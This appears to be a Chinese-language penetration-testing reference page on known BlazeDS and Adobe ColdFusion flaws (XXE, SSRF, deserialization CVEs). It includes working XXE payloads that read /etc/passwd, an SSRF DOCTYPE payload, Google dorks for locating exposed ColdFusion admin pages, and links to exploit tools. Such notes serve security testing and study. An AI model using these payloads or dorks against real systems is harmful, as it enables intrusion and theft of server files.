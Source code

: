 #### [CVE-2009-3960] XXE BlazeDS<= 3.2
影响组件：
HTTPChannel servlet。具体的，是
```
“mx.messaging.channels.HTTPChannel”
“mx.messaging.channels.SecureHTTPChannel”
```
在这个包`flex-messaging-common.jar`里。
HTTPChannel 以AMFX格式的数据进行通信（就是AMF的XML格式）。
这个endpoints在这个文件`Flex/WEB-INF/services-config.xml`里定义。

默认HTTPChannel映射到了以下接口：
- /messagebroker/http
- /messagebroker/httpsecure
不过不同的框架（比如BlazeDS, Adobe LiveCycle Data Services）会被映射到不同的路径。

```http
POST /samples/messagebroker/http HTTP/1.1
Content-type: application/x-amf

<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE test [ <!ENTITY x3 SYSTEM "/etc/passwd"> ]>
<amfx ver="3" xmlns="http://www.macromedia.com/2005/amfx">
  <body>
    <object type="flex.messaging.messages.CommandMessage">
      <traits>
        <string>body</string><string>clientId</string><string>correlationId</string>
        <string>destination</string><string>headers</string><string>messageId</string>
        <string>operation</string><string>timestamp</string><string>timeToLive</string>
      </traits><object><traits />
      </object>
      <null /><string /><string />
      <object>
        <traits>
          <string>DSId</string><string>DSMessagingVersion</string>
        </traits>
        <string>nil</string><int>1</int>
      </object>
      <string>&x3;</string>
<int>5</int><int>0</int><int>0</int>
    </object>
  </body>
</amfx>
```

参考：
- [Adobe (Multiple Products) - XML External Entity / XML Injection](https://www.exploit-db.com/exploits/11529)
- [Adboe官方对BlazeDS的公告](https://www.adobe.com/support/security/bulletins/apsb10-05.html)

#### [CVE-2015-3269]XXE BlazeDS< 4.7.1
http://mail-archives.apache.org/mod_mbox/flex-users/201511.mbox/%3Cop.x8j4mv0bn9yd54@christofers-macbook-pro.local%3E
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>
```

#### [CVE-2015-5255]SSRF BlazeDS< 4.7.2
http://apache-flex-users.2333346.n4.nabble.com/CVE-2015-3269-Apache-Flex-BlazeDS-Insecure-Xml-Entity-Expansion-Vulnerability-td10976.html

```xml
<!DOCTYPE foo PUBLIC "-//VSR//PENTEST//EN"
"http://49.x.y.z:8888/protected-service"><foo>Some content</foo>
```


#### [CVE-2017-5641] 反序列化 BlazeDS< 4.7.3

#### [CVE-2017-3066]Adobe Coldfusion BlazeDS反序列化
影响范围：
Adobe ColdFusion 2016 Update 3 and earlier
Adobe ColdFusion 11 update 11 and earlier
ColdFusion 10 Update 22 and earlier


参考：
- [Adobe Coldfusion 11.0.03.292866 - BlazeDS Java Object Deserialization Remote Code Execution](https://www.exploit-db.com/exploits/43993)
- https://codewhitesec.blogspot.com/2018/03/exploiting-adobe-coldfusion.html
- [Exploitation Tool for CVE-2017-3066 targeting Adobe Coldfusion 11/12](https://github.com/codewhitesec/ColdFusionPwn/tree/master/src/main/java)
- https://github.com/vulhub/vulhub/blob/master/coldfusion/CVE-2017-3066/README.zh-cn.md
- [Adobe官方公告](https://helpx.adobe.com/security/products/coldfusion/apsb17-14.html)

## 参考

- [ColdFusion for Pentesters](http://www.carnal0wnage.com/papers/LARES-ColdFusion.pdf)
- http://web.archive.org/web/20101226181618/http://www.security-assessment.com/files/advisories/2010-02-22_Multiple_Adobe_Products-XML_External_Entity_and_XML_Injection.pdf


### Google Dorks
```
- filetype:cfm "cfapplication name" password
- inurl:login.cfm
- intitle:"Error Occurred" "The error occurred in"
- filetype:cfm
- intitle:"ColdFusion Administrator Login“
- intitle:"Index of" cfide
- inurl:/CFIDE/componentutils/
```


### CodeFusion各个版本的界面


## 利用工具
- https://github.com/codewhitesec/ColdFusionPwn/tree/master/src/main/java
- https://github.com/mbechler/marshalsec/blob/6e5f2a7974a62fcd0e5bbbf8df64774a50db2eb8/src/main/java/marshalsec/BlazeDSAMF3AM.java
- https://github.com/mbechler/marshalsec/blob/0471b932a09c8aca21876de80c8abf65b251c9ca/src/main/java/marshalsec/BlazeDSAMFX.java
- https://github.com/vulhub/vulhub/blob/master/coldfusion/CVE-2017-3066/README.zh-cn.md



